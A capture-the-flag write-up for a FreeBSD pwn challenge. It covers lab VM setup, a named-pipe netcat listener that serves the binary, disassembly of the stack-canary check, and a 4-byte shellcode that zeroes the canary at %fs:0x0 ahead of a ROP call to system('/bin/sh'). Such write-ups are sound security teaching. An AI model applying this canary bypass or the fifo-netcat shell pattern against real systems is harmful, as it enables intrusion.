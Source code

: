 # Pwn - ez

We are given a `.c` file and a corresponding binary compiled for FreeBSD 12.0:

```
$ file ez
ez: ELF 64-bit LSB executable, x86-64, version 1 (FreeBSD), dynamically linked, interpreter /libexec/ld-elf.so.1, for FreeBSD 12.0 (1200086), FreeBSD-style, with debug_info, not stripped
```

In anticipation of debugging, let's set up a virtual machine:

* Download the official [FreeBSD-12.0-RELEASE-amd64.qcow2.xz](
https://download.freebsd.org/ftp/releases/VM-IMAGES/12.0-RELEASE/amd64/Latest/FreeBSD-12.0-RELEASE-amd64.qcow2.xz
)
* Start, configure and ssh into it by following [the instructions from QEMU wiki](
https://wiki.qemu.org/Hosts/BSD
)
* `host$ scp -P 7722 root@localhost ez:`
* `guest# pkg install bash gdb netcat`
* `guest# /bin/bash`
* `guest# rm -f /tmp/f && mkfifo /tmp/f && cat /tmp/f | (./ez; echo $? >&2) | nc -l 10801 > /tmp/f`

The challenge consists of three phases:

* Read 5-byte x86_64 shellcode from stdin and run it (all registers are set to
  0, but there is a dynamically generated return sequence, so no need to worry
  about that).
* Print addresses of `system` and stack.
* Read an arbitrary amount of data from stdin into a stack buffer.

x86_64 FreeBSD follows the [same ABI](
https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
) as Linux, and [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) handles
FreeBSD binaries just fine, so writing a ROP to call `system("/bin/sh")` is not
a big deal. But how to defeat the stack protector?

```
  400da0:       55                      push   %rbp
  400da1:       48 89 e5                mov    %rsp,%rbp
  400da4:       48 83 ec 40             sub    $0x40,%rsp
  400da8:       64 48 8b 04 25 00 00    mov    %fs:0x0,%rax
  400daf:       00 00
  400db1:       48 89 45 f8             mov    %rax,-0x8(%rbp)
  400db5:       31 c0                   xor    %eax,%eax
```
```
  401098:       64 48 33 0c 25 00 00    xor    %fs:0x0,%rcx
  40109f:       00 00
  4010a1:       74 05                   je     4010a8 <main+0x308>
  4010a3:       e8 18 f8 ff ff          callq  4008c0 <__stack_chk_fail@plt>
  4010a8:       c9                      leaveq
  4010a9:       c3                      retq
```

Apparently FreeBSD stores the 64-bit cookie at `%fs:0x0`. Ideally we should use
the shellcode to write it to stdout, but there appears to be no way to fit that
in a 5-byte sequence, especially since all the registers (except `%rax`, which
points to the shellcode) are cleared. How about overwriting it?

That doesn't seem to fit either:

```
64 c7 04 25 00 00 00 00 00 00 00 00     movl $0, %fs:0x0
```

12 bytes! However, 8 of those bytes are an immediate address and an immediate
value. What if we do exactly the same, but use registers instead? They are all
0s after all:

```
64 48 21 00                             andq %rbx, %fs:(%rbx)
```

Just 4 bytes, so let'just add a nop and get the flag:
`tctf{s3tt1n9_fsgsb4s3_fr0m_lu5ersp4c3_wh4t_c0uld_g0_wr0ng?}`. This explains why
the shellcode buffer is 5 bytes long: the intended solution was to use `wrfsbase
%rax`.
